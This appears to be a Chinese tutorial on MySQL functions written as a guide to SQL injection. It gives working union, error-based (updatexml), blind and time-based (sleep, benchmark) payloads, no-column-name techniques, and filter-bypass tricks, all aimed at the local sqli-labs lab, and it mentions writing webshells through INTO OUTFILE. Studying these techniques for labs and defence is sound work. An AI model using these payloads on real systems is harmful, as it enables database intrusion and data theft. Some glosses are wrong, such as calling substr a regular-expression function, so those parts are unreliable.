limit 语句
例如：limit 0,1 //从第一个值开始，输出一个值
limit 1,2 //从第二个开始，输出两个
以此类推order by 命令
英译：排序
升降排序
用于对结果集按照一个列或者多个列进行排序。
命令格式：
order by [列1];//将数据按列1顺序升序排列
order by [列2] DESC;//将数据按列2顺序降序排序
ASC 升序，使用order by一般默认升序排序
DESC 降序;
注意：ASC和DESC只对它紧跟着的第一个列名有效，其他不受影响，仍然是默认的升序。
确定列数(指定列排序)
order by语句可以不输入列名，而是输入数字表示具体列
如order by 1 ;表示对第一列进行排序
- 联合查询(union语句)
英译：联合
UNION 操作符用于合并两个或多个 SELECT 语句的结果集。
请注意，UNION 内部的每个 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型。
同时，每个 SELECT 语句中的列的顺序必须相同。
默认地，UNION 操作符选取不同的值。如果允许重复的值，需使用 UNION ALL。
union语法
select [列1名] from [表1名]
union
select [列2名] form [表2名];
//联合查询表1中列1和表2中列2，并输出其中所有内容(value)【不重复】。
使用union all 可输出重复的内容。
语句后可加入order by / where 语句注释联合查询结果。
union select [数字组]//例如：union select 1,2,3;
我们写的一串数字就是一个数组（或1个行向量），这时select实际上没有向任何一个数据库查询数据，即查询命令不指向任何数据库的表。返回值就是我们输入的这个数组。
select直接加数字串不指向任何数据库的表，用于找到数据库与前端显示的通道，确定注入点。
concat()函数
功能：将多个字符串连接成一个字符串。
返回结果为连接参数产生的字符串，如果有任何一个参数为null，则返回值为null。
语法：concat(str1, str2,…)
例1:select concat (id, name, score) as info from tt2;
//将表tt2中的id,name,score连接起来，输出到info中。
concat_ws()函数
和concat()一样，将多个字符串连接成一个字符串，但是可以一次性指定分隔符～（concat_ws就是concat with separator）
语法：concat_ws(separator, str1, str2, …)
说明：第一个参数指定分隔符。需要注意的是分隔符不能为null，如果为null，则返回结果为null。
例如：concat_ws(‘,’,id,name,sorce) as info from tt2;group by 语句
英译：分组依据
用途如字面意思，通过by后的规则进行分组
所谓的分组就是将一个“数据集”划分成若干个“小区域”，然后针对若干个“小区域”进行数据处理。
举例：
select 类别, sum(数量) as 数量之和
from A png
group by 类别
group_concat() 函数
功能：将group by产生的同一个分组中的值连接起来，返回一个字符串结果。
相当于执行完group by 后再次执行concat()语句。
语法：group_concat( [distinct] 要连接的字段 [order by 排序字段 asc/desc ] [separator ‘分隔符’] )
//distinct 英译：不同的。 可以排除重复值。
如果希望对结果中的值进行排序，可以使用order by子句
separator是一个字符串值，不进行规定默认为一个逗号。lines terminated by 方法
意为：每行都以…结尾
例如：lines terminated by ‘‘
每行都以单引号中的内容结束
常配合into outfile写入木马schema
英译：模式，架构
schema定义了表、每个表的字段，还有表和字段之间的关系。
简单说schema是开发者创建的，储存表、列信息的特殊数据库。
如果把database看作是一个仓库，仓库很多房间（schema），一个schema代表一个房间，table可以看作是每个房间中的储物柜，user是每个schema的主人，有操作数据库中每个房间的权利，就是说每个数据库映射user有每个schema（房间）的钥匙。
在mysql中，database与schema等价。
截取字符串
left()函数
left 英译：左边
语法：left（参数1，参数2） 意为 将参数1从左开始取参数2个
例如：left(abc,2) //将abc从左边取两位
注：此时无返回值
加入判断语句：
left(abc,1) > “a” //成立返回1，不成立返回0;mid()函数
mid 译为中间
此函数为截取字符串一部分。
语法：mid(column_name,start[,length])
start：起始值，mid函数用于将字符串从起始值(从1开始)开始截取指定位数
length:指定截取位数
例如：mid(abcdefg,1,1) //从“abcdefg”中第一个开始截取一字符
同left，加入判断语句可得到返回值substr()函数[等同于substring()函数]
substr 译：正则表达式
功能同mid()函数
语法:substr(string,start,length)
string为字符串，可以是sql语句,其他内容与mid()相同
例如：substr(123456,2,1)=2 //判断第二个是否为二，是返回正确(1)，不是返回(0)ord()函数
功能同mid，但会将得到的字符串转化为ASCII码值，常与前三个函数连用
ascii()函数
将括号内的字符串转化为ascii码值
regexp 方法
正则表达式函数，用与匹配文本，支持where指定
语法：select [表] from [数据库] where [指定检索] regexp ‘[关键字]’;
返回数据库/表/列中含有关键字的数据。
例如：select users from security where security.users regexp ‘^abc|^123|123|password$’;
//返回users表中以abc开头或以123开头或含有123或以password结尾的数据。
符号解析：
^ ：用字符串前，表示以此字符串开头
| ：用于两字符串中间，表示或
$ ：用于字符串末尾，表示以此字符串结尾
上述三个符号可以连用
特别的：
[字符串1]字符串2 ：用于写有重复字符的或语句
如：[abc]1 //返回含有a1或b1或c1的字符串
也可以写为[a-c]1，返回结果一致
- like 方法
like的用法大体上和regexp一致，只有符号表示有区别
like只有%
例如：select [表，列等] from [库，表等] where [指定检索] like ‘[关键字]’
select users from security where security like ‘G%’;
//返回以G开头的字段
同理：’%G’ - 返回以G结尾的字段,’%G%’ - 返回包含G的字段。
简易查看
database()
查看当前数据库：select database();user()
查看当前登录的用户：select user();version()
查看当前的数据库版本
报错注入
rand()函数
rand，random简写，译：随机的
在sql中用于返回一个范围在0-1的随机数，这点等同于excl表格
在如c、python等语言中，rand()函数用于返回伪随机数（随机整数），非0-1
特别的：
1、在rand后指定一个数，如rand(1),得到的随机数将固定，可以为小数，该方法遵循四舍五入法则
2、在rand()*N[N是一个数]将返回从0-N的随机数，但我测试后，我认为是将rand()得到的随机数乘N，N可以为小数
3、可以用于order by后，返回打乱顺序的列floor()函数
floor，译:地板，与c语言的地板除法类似
功能是取整（同c地板除法一样为向下取整）
例如：floor(2.9)=2round()函数
round,译：绕行，绕过，把数字四舍五入
功能同floor为取整，不同于floor向下取整，round是将数四舍五入ceiling()函数
ceiling，译：天花板
功能同floor为取整，但ceiling函数为向上取整count()函数
count，译：计数
例如：
count(columns)//返回列数
count(*)//输出总行数updatexml()函数
updatexml是基于PATH传参的函数
xml是xml文档的名称，中文为doc
updatexml译：更新xml文档
用于在sql中报错注入
语法：updatexml(XML_document,Xpath_string, new_value);
xml_document:原来文档的名称，是string类型
Xpath_string:Xpath格式的字符串，文件的路径
new_value：新的值，用于替换查找到符合条件的字符串
注意：因Xpath_string是字符串形式，所以若想正常报错，需用concat函数将返回的值连接->原理：
文件路径是不允许非法字符出现的，当出现非法字符就会爆出错误
所以使用查询语句查询后，和非法字符连接，就会形成报错
如：updatexml(1,(select concat(0x7e,schema_name) from information_schema.schemata limit 0,1),0)–+
这里0x7e是16进制的“”，属于非法字符，当放在合法的数据库名前，就会以非法路径报错
数据库本质类似文件夹，可以作为路径使用，不过这里是因为我们可以写入任意值作为路径，对不对倒是无所谓
除了select，还可以利用updatexml完成insert，update和delete注入，原理和select相同。
insert into guestbook(comment_id,comment,name) values (2,’0livia’ or updatexml(1,concat(0x7e,(version())),0) or’’,’Nervo’)
delete from guestbook where comment_id=2 or updatexml(2,concat(0x7e,(database())),0)
- extractvalue()函数
extract value译：提取值
功能：查询文档，相当于HTML文件中用 div>标签查找元素
语法：
extractvalue(xml文档名,路径)
原理同updatexml(),都是基于路径不能有非法字符
正则匹配
sql支持正则匹配
select * from users where id=1 and regexp '正则表达式';
规则：
^str表示匹配以str为开头的字符str匹配strstr$表示匹配以str为结尾的字符匹配多个字符
| 元字符 | 说明 |
|---|---|
| * | 0个或多个匹配 |
| + | 1个或多个匹配 |
| ？ | 0个或1个匹配 |
| {n} | 指定数目的匹配 |
| {n，} | 不少于指定数目的匹配 |
| {n,m} | 匹配数目的范围（m不超过255） |
SQL注入
SQL注入攻击（SQL Injection），简称注入攻击，是Web开发中最常见的一种安全漏洞。可以用它来从数据库获取敏感信息，或者利用数据库的特性执行添加用户，导出文件等一系列恶意操作，甚至有可能获取数据库乃至系统用户最高权限。
而造成SQL注入的原因是因为程序没有有效过滤用户的输入，使攻击者成功的向服务器提交恶意的SQL查询代码，程序在接收后错误的将攻击者的输入作为查询语句的一部分执行，导致原始的查询逻辑被改变，额外的执行了攻击者精心构造的恶意代码。
写入文件
- 查看是否有读写权限
file_priv是对于用户的文件读写权限，若无权限则不能进行文件读写操作，可通过下述payload查询权限。select file_priv from mysql.user where user=$USER host=$HOST;
secure-file-priv是一个系统变量，对于文件读/写功能进行限制。具体如下：
- 无内容，表示无限制。
- 为NULL，表示禁止文件读/写。
- 为目录名，表示仅允许对特定目录的文件进行读/写。
注：5.5.53本身及之后的版本默认值为NULL，之前的版本无内容。
三种方法查看当前
secure-file-priv的值：select @@secure_file_priv; select @@global.secure_file_priv; show variables like "secure_file_priv";修改：
- 通过修改my.ini文件，添加：
secure-file-priv=- 启动项添加参数：
mysqld.exe --secure-file-priv=
写入小马——一句话木马
php木马
eval()函数
eval 译：邪恶的，目前常见于一句话木马攻击
用法：
eval(数字)，返回数字
eval(字符串)，解析字符串，作为代码运行_POST()函数与GET()函数
POST和GET都是bai向服务器提交数据，并且都会从服务器获取数据。区别：
1、传送方式：get通过地址栏传输，post通过报文传输。
2、传送长度：get参数有长度限制（受限于url长度），而post无限制
3、GET和POST还有一个重大区别，简单的说：
GET产生一个TCP数据包；POST产生两个TCP数据包
长的说：
对于GET方式的请求，浏览器会把http header和data一并发送出去，服务器响应200（返回数据）；
而对于POST，浏览器先发送header，服务器响应100 continue，浏览器再发送data，服务器响应200 ok（返回数据）。
过程不同
GET是把参数数据队列加到提交表单的ACTIONbai性所指的URL中，值和表单内各个字段一一对应，在URL中可以看到
POST是通过HTTP post机制，将表单内各个字段与其内容放置在HTML HEADER内一起传送到ACTIONbai性所指的URL地址。用户看不到这个过程。
获取值不同
对于get方式，服务器端用Request.QueryString获取变量的值。
对于post方式，服务器端用Request.Form获取提交的数据。
传送数据量不同
get传送的数据量较小，不能大于2KB。
post传送的数据量较大，一般被默认为不受限制。但理论上，IIS4中最大量为80KB，IIS5中为100KB。
盲注
布尔盲注
- if()函数
if(语句,正确,错误)
例如：if((ascii(substr((select database()),1,1))) > 122 ,1,2)
如果database第一个字符的ascii值大于122,返回1，否则返回2
完整语句：
?id=1’ and if((ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1))>22),1,0)–+
时间盲注
length()函数
length 译为：长度
用于返回字符串长度
如：length(“security”)或 length(select database())=8sleep()函数
sleep 译为：睡觉
用于延迟网页响应
如：sleep(5) //延迟5秒后响应 或 睡眠5秒benchmark()函数
bench mark 译为基准点
用于循环执行一条语句
BENCHMARK（count,expr) 函数重复count次执行表达式expr，它可以用于计时MySQL处理表达式有多快，结果值总是0。
语法;
benchmark(执行次数，执行语句)，注入时用发同sleep()
1' and if(1=1,benchmark(1000000,md5('test')),0)--+benchmark()函数还可以用在select查询中
select * from users where id=0 union select 1,benchmark(10000000000000000,md5('test')),3;当语句正确时benchmark执行，页面显示延时
这样就巧妙的绕过了if()函数对盲注的影响
当然运算符注入也可以脱离if
运算符注入
php和mysql中存在多种运算符，这些运算符也可以应用在注入中
CTF中这种注入方式很常见
异或运算
符号：xor 或 ^
a ^ b 当a,b相同时返回0，不同时返回1
如id=1'^ (length("union")=5)--+ 当union未被过滤返回0,过滤返回1select * from users where id=1^1;等于运算
符号：= 或 like
a=b时返回1，否则返回0
如：
select * from users where id=(1=1);
注入语句：
不等运算
sql有一个特殊的不等运算符：<>
用法同!=
select * from users where id=1=(1<>0)=1;非运算
sql允许！（非运算符）的存在
通过！假或！真，我们就可以灵活的注入各种情况

或者：
无列名注入
有些时候，我们无法得列名，这种情况包括但不限于过滤了information_schema库
表名的多种查询方式
- 系统库概念
mysql系统自带的库一共有四个分别为information_schema,mysql,perfromance_schema,sys
- information_schema库
information_schema是一个信息数据库，记录了其他所有数据库的信息
这是查询表名，列名最常用的库
- mysql库
mysql库是mysql的核心数据库，负责储存数据库的用户，权限设置，root密码就储存在这里
这个数据库同样储存了表名
从MYSQL5.5.8开始，InnoDB成为其默认存储引擎。而在MYSQL5.6以上的版本中，inndb增加了innodb_index_stats和innodb_table_stats两张表，这两张表中都存储了数据库和其数据表的信息，但是没有存储列名。
payload:
select group_concat(table_name) from mysql.innodb_table_stats || mysql.inndb_index_starts
- performance_schema库
performance_schema 主要用于手机服务器性能参数
- sys 库
Sys库所有的基础数据来自information_schema和performance_chema。目标是把performance_schema的把复杂度降低，其本身不储存数据
让DBA能更好的阅读这个库里的内容。让DBA更快的了解DB的运行情况。
可以通过其中的schema_auto_increment_columns 表来获取表名。
无列名原理
- 原理
原理和给列别名类似，类似于在取别名的同时查询数据
当然我认为有联合查询的影子
payload举例：
当select 1,2,3;时，数据库会自动建立一个列名和数据都为123的虚拟库
select 1,2,3;联合查询基于这个原理，是将123写入列名下查看回显和数据
select * from users where id=0 union select 1,2,3;
无列名原理恰好与此相反，是将数据写入虚拟的1,2,3,列下
select 1,2,3 union select * from users;
这样做，我们便从不知到列名，变成了自定义一个列名，查询这个虚拟表，就得到了数据
起别名查询
知道原理，我们可以明白，无列名注入的基本语句如下
select `3` from (select 1,2,3 union select * from users);
#括号中的语句表示创建的虚拟表
理论上这样没有错误，但括号里得到的是一个虚拟表，没有表名，会发生报错，所以我们需要给它起个表名
select `3` from (select 1,2,3 union select * from users)a; || as a
#直接跟a或者as a都是起别名的方式，这里a是我们给虚拟表别名
注意：3使用反引号包括，因为在虚拟表中，列名都是1，2，3，所以我们在查询语句中不能直接用 3 。
有时反引号被过滤，所有可以用另一种方式
select A from (select 1,2,'A' union select * from users)a;
或者给要查询的列也起别名
select c from (select 1 as a,2 as b,3 as c union select * from users)n

注入示例
这里以sql-labs-1为例
- payload
http://127.0.0.1/sql-labs/Less-1/?id=0' union select 1,2,group_concat(`3`) from (select 1,2 ,3 union select * from security.users)n--+ #联合注入之无列名注入
无列名只是把查询真实表改为了查询虚拟表，其他部分差别不大
无列名时使用join得到字段名
原理
join 用于连接两个表，将两个表的数据同时显示

上图是将两表简单相合，是一个无名称的虚拟表
当两表中列名存在重复时给虚拟表起别名，便会报错
如下
select * from (select * from users a join emails b)as a;先分别查出users和emails的数据，并连接为一个虚拟表，起别名为a，然后查询虚拟表a，这时a表会出现名称重复的字段，数据库报错

原理同下

通过这个原理，我们就可以在系统库被过滤的情况中完成对列名的注入
无列名payload示例
#完整sql语句 select * from users where id='0' union select 1,2,3 from (select * from users join users b using(id))n;
详解
select * from users where id='$id'这是系统本身的查询语句
0' union select 1,2,3 from (语句体)n;这里构造了一个典型的联合查询，n为表名，语句体是无列名注入的语句
0' union select 1,2,3 from (select users join users b)n;括号中语句构造了一个虚拟表，因为是由两个users表使用join语句连接而成，所以必然出现列名重复报错，别名为n便于查询
0' union select 1,2,3 from (select * from users join users a)n;join查询的两个表不能重名，所以要将一个表起别名
0' union select 1,2,3 from (select * from users join users a using(id))n;using()方法用于join中，规定join两个表连接时字段名相同的列
使用using()后，列名不会重复

同一张表也遵循这个原理

using()目的：
列名重复报错只会报错第一列，而不会全部报错
using()方法可以解决这个问题
注入完整语句
http://127.0.0.1/sql-labs/Less-1/?id=0' union select 1,2,3 from (select * from users join users b using(id,username))n--+
过滤括号的order by 大小比较注入
原理
- order by 方法用于指定列排序，默认是升序
- union select 联合查询可以输出一个虚拟表，表中同时存在原表的数据和联合的数据
- order by 同样可以对虚拟表进行排序
payload举例
select * from users where id=1 union select 1,2,3 order by 3;
目标是得到password的数据，使用union select 1,2,3 时，联合的第三列虚拟数据为3和Dumb,order by 排序时默认升序，所以会将3排在首列，当union select 连接的数据为1,2,”E”时，E比原表的D值更大，于是E排在了Dumb下面
这两种情况的页面回显必然有所不同，这样就可以通过回显来判断出password数据

特殊拦截的绕过方法
过滤逗号
使用盲注
subsrt()函数使用substr(data from 1 for 1) 代替 substr(data,1,1)
from 1 for 1 :从1到1
limit 0,1 使用 limit 0 offset 1 代替
offset 1 ：偏移量1
其他系统关键字被过滤/拦截
- 双写绕过关键字过滤
- 使用同义函数/语句代替，如if函数可用
case when condition then 1 else 0 end语句代替。
数字被过滤/拦截
下表摘自MySQL注入技巧
| 代替字符 | 数 | 代替字符 | 数、字 | 代替字符 | 数、字 | ||
|---|---|---|---|---|---|---|---|
| false、!pi() | 0 | ceil(pi()*pi()) | 10\ | A | ceil((pi()+pi())*pi()) | 20\ | K |
| true、!(!pi()) | 1 | ceil(pi()*pi())+true | 11\ | B | ceil(ceil(pi())*version()) | 21\ | L |
| true+true | 2 | ceil(pi()+pi()+version()) | 12\ | C | ceil(pi()*ceil(pi()+pi())) | 22\ | M |
| floor(pi())、~~pi() | 3 | floor(pi()*pi()+pi()) | 13\ | D | ceil((pi()+ceil(pi()))*pi()) | 23\ | N |
| ceil(pi()) | 4 | ceil(pi()*pi()+pi()) | 14\ | E | ceil(pi())*ceil(version()) | 24\ | O |
| floor(version()) //注意版本 | 5 | ceil(pi()*pi()+version()) | 15\ | F | floor(pi()*(version()+pi())) | 25\ | P |
| ceil(version()) | 6 | floor(pi()*version()) | 16\ | G | floor(version()*version()) | 26\ | Q |
| ceil(pi()+pi()) | 7 | ceil(pi()*version()) | 17\ | H | ceil(version()*version()) | 27\ | R |
| floor(version()+pi()) | 8 | ceil(pi()*version())+true | 18\ | I | ceil(pi()*pi()*pi()-pi()) | 28\ | S |
| floor(pi()*pi()) | 9 | floor((pi()+pi())*pi()) | 19\ | J | floor(pi()*pi()*floor(pi())) | 29\ | T |
报错注入详解
报错注入类型
- 大数溢出
- 函数报错
- 主键，字段重复
大数溢出
sql可以运行并处理的数是有限的，当数超过上限，便会发生大数溢出
主要函数
exp(),pow()
exp和pow两个函数都用来计算次方，exp(2)表示e的2次,pow(2,2)表示2的2次

若平方过大，则报错

payload
exp(~(select * from(select user())a))
这里我也不懂，此方法仅限mysql5使用
函数报错
最常见的是updatexml()和extractvalue()函数，在注入攻击中已经提及
其他函数具体看开头的先知社区文章